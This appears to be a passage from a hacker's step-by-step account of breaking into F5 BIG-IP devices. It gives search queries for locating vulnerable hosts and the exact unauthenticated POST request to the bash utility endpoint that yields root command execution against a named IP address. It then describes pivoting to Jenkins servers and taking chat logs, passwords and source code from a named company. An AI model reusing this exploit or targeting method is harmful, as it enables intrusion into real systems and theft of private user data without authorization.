 2. **Testing the Exploit**
   - Now we have two options:
     1. Test it safely on a local VM first (recommended)
     2. Go straight to finding vulnerable hosts (riskier)

3. **Finding Vulnerable Targets**
   - This vendor (F5 Big-IP) has special filters:
     - Censys.io has them but version detection is hard
     - leakix.net works much better for this case
   - Try different search engines to see what works best:
     - fofa
     - shodan
     - leakix
     - censys
   - Good leakix search query:  
     https://leakix.net/search?scope=leak&q=%2Bplugin%3A%22BigIPVersion%22  
     (This shows all vulnerable F5 Big-IP hosts)

4. **Executing the Exploit**
   - The PoC uses a POST request - perfect for BurpSuite
   - Here's the exact request we used:
     ```http
     POST /mgmt/tm/util/bash HTTP/1.1
     Host: 207.140.30.115
     Authorization: Basic YWRtaW46
     Connection: keep-alive, X-F5-Auth-Token
     X-F5-Auth-Token: 0
     Content-Length: 100

     {"command": "run", "utilCmdArgs": " -c 'id' "}
     ```
   - Here's how we did it:
     1. Opened BurpSuite
     2. Sent a normal GET request to the Repeater
     3. Changed it to the POST request above
     4. Hit send

5. **Confirming We Got In**
   - The server responded with:
     ```json
     {
       "kind": "tm:util:bash:runstate",
       "command": "run",
       "utilCmdArgs": " -c 'id' ",
       "commandResult": "uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0\n"
     }
     ```
   - Boom! We have root access (RCE).

6. **What We Did After Getting In**
   - Set up SSH port forwarding (port 8081)
   - Compromised multiple Jenkins servers
   - Accessed terabytes of data including:
     - Plain text chat logs
     - Usernames and passwords
     - System logs
     - Complete source code
   - Fun fact: Pinger owns TextFree - the biggest free phone number app in North America!
